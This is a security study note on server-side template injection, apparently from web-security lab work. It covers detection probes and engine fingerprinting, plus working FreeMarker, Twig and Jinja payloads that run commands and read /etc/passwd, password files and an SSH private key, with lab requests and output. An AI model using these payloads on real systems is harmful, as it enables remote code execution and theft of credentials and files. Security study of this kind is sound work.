

>[!question] What is server-side template injection?
>Server-side template injection is when an attacker is able to **use native template syntax to inject a malicious payload into a template**, which is then executed server-side. Server-side template injection attacks can **occur when user input is concatenated directly into a template**, rather than passed in as data.

# Attacking server-side templates

As **templates are simply strings**, web developers sometimes directly concatenate user input into templates prior to rendering, causing the issue:

```php
// Vulnerable code
$output = $twig->render("Dear " . $_GET['name']);

// Safe code
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```

## Detect

As with any vulnerability, the first step towards exploitation is being able to find it. Perhaps the simplest initial approach is to try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`. If an exception is raised, this indicates that the injected template syntax is potentially being interpreted by the server in some way. This is one sign that a vulnerability to server-side template injection may exist.

SSTI exists in two contexts:
- **Plaintext context**:
```python
render('Hello ' + username)

http://vulnerable-website.com/?username=${7*7}
```

- **Code context**:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{"+greeting+"}}", data)

http://vulnerable-website.com/?greeting=data.username}}<tag>
```

## Identify

Once you have detected the template injection potential, the next step is to identify the template engine. Although there are a huge number of templating languages, many of them use very similar syntax.



```
${'1'*1} {{'2'*2}} a{*foo*}b ${"z".join("ab")} <%= '3'*3 %> ${{'4'*4}} #{'5'*5} *{'6'*6}
```

## Exploit

Once you discover a server-side template injection vulnerability, and identify the template engine being used, successful exploitation typically involves:

- Reading the template engine documentation and existing PoC
	- Basic template syntax
	- Security implication
	- Known exploits
- Explore
	- Explore the environment and try to discover all the objects to which you have access ( `self`, `debug`, `env`, `environment`, etc.)
	- Discover custom, site-specific non-standard objects that have been supplied by the web developer
- Create a custom attack
	- Object chain (eg. `$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")`)
	- Chain exploiting developer-supplied objects


Example for Freemaker exploiting CVE-2021-25770 [^1]:

[^1]: https://www.synacktiv.com/en/publications/exploiting-cve-2021-25770-a-server-side-template-injection-in-youtrack

```java
<#assign classloader=product.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
${dwf.newInstance(ec,null)("cat+my_password.txt")}

---

<div id=preview-result>
uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
z4u4nqy904r18mhwa8lu
</div>
```

But you can also try to find it manually, like in the example below:
1. Look for the template. Notice that you have access to the `product` object.
2. Load the JavaDoc for the `Object` class [^2] to find methods that should be available on all objects. Confirm that you can execute `${object.getClass()}` using the `product` object.
3. Explore the documentation to find a sequence of method invocations that grant access to a class with a static method that lets you read a file, such as: `product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")`

[^2]: https://docs.oracle.com/javase/8/docs/api/java/lang/Object.html#getClass--

```java
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}

---

<div id=preview-result>
122 52 117 52 110 113 121 57 48 52 114 49 56 109 104 119 97 56 108 117
</div>
```

Or chaining multiple vulnerabilities to craft a custom payload:

- Information disclosure when uploading not supported files:
```php
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: text/plain in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/test.txt', 'text/plain')
#1 {main}
  thrown in /home/carlos/User.php on line 28
```

- SSTI when switching the preferred name for the forum:
```http
POST /my-account/change-blog-post-author-display HTTP/2
blog-post-author-display=user.nickname


GET /post?postId=10 HTTP/2
<p>

	Wiener | 18 June 2023
</p>

POST /my-account/change-blog-post-author-display HTTP/2
blog-post-author-display=user

GET /post?postId=10 HTTP/2
<p class=is-warning>PHP Fatal error:  Uncaught Error: Object of class User could not be converted to string in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(378) : eval()&apos;d code:23
Stack trace:
#0 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php(394): __TwigTemplate_b6a7c72a93507ca5c7099ebdeaec25ac82b0a909b1559ad83f3f9c71a201576b-&gt;doDisplay(Array, Array)
#1 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php(371): Twig_Template-&gt;displayWithErrorHandling(Array, Array)
#2 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Template.php(379): Twig_Template-&gt;display(Array)
#3 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(289): Twig_Template-&gt;render(Array)
#4 Command line code(10): Twig_Environment-&gt;render(&apos;index&apos;, Array)
#5 {main}
  thrown in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(378) : eval()&apos;d code on line 23</p>
```

- Exploited the SSTI so assign to the current user a different file:
```http
POST /my-account/change-blog-post-author-display HTTP/2
blog-post-author-display=user.setAvatar("/etc/passwd","image/jpg")}

// trigger the execution
GET /post?postId=10 HTTP/2

// get the file
GET /avatar?avatar=wiener

HTTP/2 200 OK
Content-Type: image/unknown
X-Frame-Options: SAMEORIGIN
Content-Length: 2262

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

- Leaked the `User.php` class:
```http
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0afe008f04a875da80b621b800de0093.web-security-academy.net
blog-post-author-display=user.setAvatar('/home/carlos/User.php','image/jpg')

GET /post?postId=10 HTTP/2
Host: 0afe008f04a875da80b621b800de0093.web-security-academy.net

GET /avatar?avatar=wiener HTTP/2
Host: 0afe008f04a875da80b621b800de0093.web-security-academy.net

<?php

class User {
    public $username;
    public $name;
    public $first_name;
    public $nickname;
    public $user_dir;

    public function __construct($username, $name, $first_name, $nickname) {
        $this->username = $username;
        $this->name = $name;
        $this->first_name = $first_name;
        $this->nickname = $nickname;
        $this->user_dir = "users/" . $this->username;
        $this->avatarLink = $this->user_dir . "/avatar";

        if (!file_exists($this->user_dir)) {
            if (!mkdir($this->user_dir, 0755, true))
            {
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}

?>
```

Final PoC:
```http
POST /my-account/change-blog-post-author-display HTTP/2
Host: 0afe008f04a875da80b621b800de0093.web-security-academy.net
Cookie: session=JPwXmX30r52B5sB2W4sWEHFFpZ0GDLpB
Content-Length: 138
Content-Type: application/x-www-form-urlencoded

blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')}}{{user.gdprDelete()&csrf=iB1bGX9u9yTvRO2QTM7rExJIwCgPxKPC
```

### Jinja alternative syntax bypass

```python



{{ foo.bar }} # Just another variable
{{ foo|attr(bar) }} # Just another variable







{{ string|attr(class) }} # list class

 # list one mro at a time
{{ mro_r[1] }}

 # list subclasses
{{ subclasses_r }}
{{ subclasses_r[420] }}
{{ subclasses_r[420](["/usr/bin/touch","/tmp/das-ist-walter"]) }} # RCE!
```

# External Resources

- [Server-Side Template Injection | James Kettle](https://portswigger.net/research/server-side-template-injection)
- [SSTI - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [SSTI - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)